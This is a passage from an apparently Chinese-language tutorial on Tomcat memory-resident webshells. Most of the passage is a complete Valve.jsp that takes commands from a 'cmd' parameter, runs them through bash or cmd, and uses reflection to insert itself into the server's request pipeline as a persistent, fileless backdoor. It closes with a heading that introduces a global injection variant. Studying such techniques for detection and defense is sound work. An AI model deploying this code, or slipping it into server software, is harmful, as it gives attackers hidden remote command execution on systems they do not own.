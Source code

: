 Valve.jsp：

```jsp
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="org.apache.catalina.Valve" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.OutputStream" %>
<%!
    public class MyValue extends org.apache.catalina.valves.ValveBase{
        @Override
        public void invoke(Request request, Response response)  {
            if (request.getParameter("cmd") != null) {
                try {
                    Boolean isWin = System.getProperty("os.name").toUpperCase().contains("WIN");
                    String[] cmd = {isWin?"cmd":"/bin/bash",isWin?"/c":"-c",request.getParameter("cmd")};
                    InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                    OutputStream outputStream = response.getOutputStream();
                    int a = 0;
                    outputStream.write("<pre>".getBytes());
                    while((a=inputStream.read())!=-1){
                        outputStream.write(a);
                    }
                    outputStream.write("</pre>".getBytes());
                    this.getNext().invoke(request,response);
                } catch (Exception e) {
                    
                }
            }
        }
    }
%>

<%
    Valve myValve = new MyValue();
    Field reqF = org.apache.catalina.connector.RequestFacade.class.getDeclaredField("request");
    reqF.setAccessible(true);
    org.apache.catalina.connector.Request req = (Request) reqF.get(request);
    org.apache.catalina.core.StandardContext context = (StandardContext) req.getContext();
    org.apache.catalina.Pipeline pipeline = context.getPipeline();
    pipeline.addValve(myValve);

%>
```

## 3. Tomcat内存马-全局

在代码执行漏洞中，由于我们不在JSP中，无法从当前上下文获取到request从而拿到StandardContext，所以我们只能寻找符合我们期望的静态变量或单例类，从中获取我们需要的对象，本节讲解无隐式对象的情况下如何获取context。
